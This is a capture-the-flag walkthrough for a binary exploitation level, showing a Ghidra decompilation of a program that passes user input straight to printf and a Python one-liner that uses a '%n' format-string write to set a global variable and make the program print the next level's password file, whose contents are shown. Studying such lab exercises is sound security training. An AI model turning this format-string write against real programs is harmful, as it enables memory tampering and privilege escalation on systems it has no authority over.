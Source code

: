 get the binary on host
* `scp -P 4242 level4@192.168.56.107:./level4 ./binary/level4`

decompile using ghidra
```
	unsigned int m;

	void main(void)
	{
		n();
	return;
	}

	void n(void)
	{
		undefined local_20c [520];
		
		fgets(local_20c,512,stdin);
		p(local_20c);
		if (m == 16930116) {
			system("/bin/cat /home/user/level5/.pass");
		}
		return;
	}

	void p(undefined4 param_1)
	{
		printf(param_1);
		return;
	}

```

addr of m => 0x08049810\
We need to find the offset, by trying (`python -c "print '\x10\x98\x04\x08' + '%x ' * 12" > /tmp/exploit_4; cat /tmp/exploit_4 | ./level4`), we can find it's 12.\
We now need to set m to 16 930 116. To do this we will again use %n so here `%12$n` but before we need printf to print 16930166 char but we can only intput 520.

We will use printf width option and do this\
`python -c "print '\x10\x98\x04\x08' + '%16930112c' + '%12\$n'" > /tmp/exploit_4; cat /tmp/exploit_4 | ./level4`
```
	[...]
	                                                             �
	0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
